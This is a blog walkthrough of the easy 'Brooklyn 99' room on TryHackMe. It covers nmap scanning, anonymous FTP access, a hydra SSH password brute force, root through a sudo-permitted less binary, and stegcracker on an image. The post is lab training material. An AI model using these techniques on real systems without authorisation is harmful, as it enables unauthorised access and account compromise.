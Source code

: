 ```yaml
---
layout: post
title: Brooklyn 99 CTF on TryHackMe
subtitle: Difficulty level - Very Easy
cover-img: /assets/img/B99/logo.png
thumbnail-img: /assets/img/B99/cover.png
share-img: /assets/img/B99/cover.png
tags: [THM, steganography, root, hydra, ftp]
---
```


This blog post is a walkthrough of an easy room on TryHackMe.

First we deploy the machine

![Machine Info](/assets/img/B99/active.png)

The prompt tells us that there are two main ways to get root on the machine. Lets starts with the nmap scan.

~~~
nmap -sV --open --top-ports 20 10.10.184.153
~~~

![Nmap](/assets/img/B99/nmap.png)

The scan shows us 3 open ports 21,22 and 80 in the top 1000 ports. 

Opening the website on web-browser.

[!First Page](/assets/img/B99/page1.png)

The page has the entire B99 squad and some text at the bottom. Analysing the element

[!hint](/assets/img/B99/element.png)

There is a hint about steganography so we can start by downloading the image.

~~~
wget http://10.10.184.153/brooklyn99.jpg 
~~~

The other method could be via ftp as port 21 is open. Running nmap on it again but now with -sC tag.

[FTP](/assets/img/B99/ftp.png)

This shows that anonymous login is allowed on ftp!

Logging in via ftp

Username - anonymous
password - anonymous

Once in we can see what files are there on the server and then get them.

[!Note](/assets/img/B99/note.png)

We get a file from the ftp server upon reading it we see that its a note from Amy to Jake!

~~~
┌──(cabba㉿kali)-[~]
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
~~~

Typical Jake, but that makes our lives easier because now we can run hydra to brute force into nine nine via ssh with user Jake!.

~~~
hydra -l jake -P /usr/share/wordlists/rockyou.txt  ssh://10.10.184.153
~~~

We found a password for jake so now we will ssh into the machine!

Once in the machine we find the user flag in the home directory for captain holt. We can read the flag and submit it!

[Holt](/assets/img/B99/user.png)

Now for priv-esc. On running sudo -l we get

~~~
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

~~~

Looks like Jake can run less command as sudo. So we can directly find the root flag and try to read it via sudo /usr/bin/less

The flag is in the root directory

[Root](/assets/img/B99/root.png)

So we got both the flags via method 1. Going back to the image we downloaded and running exiftool and steghide on it shows nothing.

But maybe the image is also password protected and can be cracked!

~~~
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt
~~~

Once the file is cracked we get output in the file brooklyn99.jpg.out and that has the password for Captain Holts account!

We can ssh into the server using these creds and get both flags this way too!

And thats it! We have completed this CTF

[Done](/assets/img/B99/done.png)
